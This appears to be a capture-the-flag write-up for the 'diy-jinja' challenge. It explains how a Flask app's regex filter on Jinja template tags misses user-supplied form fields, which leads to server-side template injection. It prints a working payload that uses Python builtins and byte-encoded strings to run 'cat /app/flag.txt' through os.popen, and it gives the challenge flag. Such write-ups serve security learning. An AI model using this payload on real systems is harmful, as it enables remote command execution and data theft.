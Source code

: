 ## [HV23.10] diy‑jinja (coderion)
### Description
> We've heard you like to create your own forms. With SANTA (Secure and New Template Automation), you can upload your own jinja templates and have the convenience of HTML input fields to have your friends fill them out! Obviously 100% secure and even with anti-tampering protection!
### Solution
When looking at the sourcecode, you quickly see that this is a flask webapp with jinja2 templates. When further analysing the code one can notice that there is some injecting protection with a regex. The regex **{{(.*?)}}** matches all templates which then get further checked by this regex **^[a-z ]+$**, which only allows lowercase a-z and space. But you can notice that the field actually dont get checked but also rendered with render_template. With this you can perform a STI(Serverside Template Injection). One limitation is that you can't use any strings but this can easily be solved by just converting them to integers.   
File: 
```jinja
{{ a }}
```
Field a:
```python
{{ self.__init__.__globals__.__builtins__.__import__(self.__init__.__globals__.__builtins__.bytes([111, 115]).decode()).popen(self.__init__.__globals__.__builtins__.bytes([99, 97, 116, 32, 47, 97, 112, 112, 47, 102, 108, 97, 103, 46, 116, 120, 116]).decode()).read() }}
```
Cleaned up:
```py
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /app/flag.txt').read() }}
```
Or you can just execute the [solve.py](./solve.py)

Flag: **HV23{us3r_suppl13d_j1nj4_1s_4lw4ys_4_g00d_1d34}**  